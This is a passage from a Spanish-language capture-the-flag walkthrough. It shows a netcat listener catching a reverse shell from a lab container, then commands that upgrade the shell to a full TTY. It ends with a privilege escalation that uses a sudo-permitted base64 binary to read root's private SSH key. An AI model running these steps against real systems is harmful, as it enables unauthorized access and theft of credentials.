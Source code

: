Antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Estando a la escucha, ejecutaremos lo de la pagina web y si volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 41760
bash: cannot set terminal process group (94): Inappropriate ioctl for device
bash: no job control in this shell
verde@dbd3088f8897:~$ whoami
whoami
verde
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for verde on 8411222316c4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User verde may run the following commands on 8411222316c4:
    (root) NOPASSWD: /usr/bin/base64
```

Vemos que podemos ejecutar el binario `base64` como el usuario `root`, por lo que haremos lo siguiente.

```shell
LFILE=/root/.ssh/id_rsa
sudo base64 "$LFILE" | base64 --decode
```
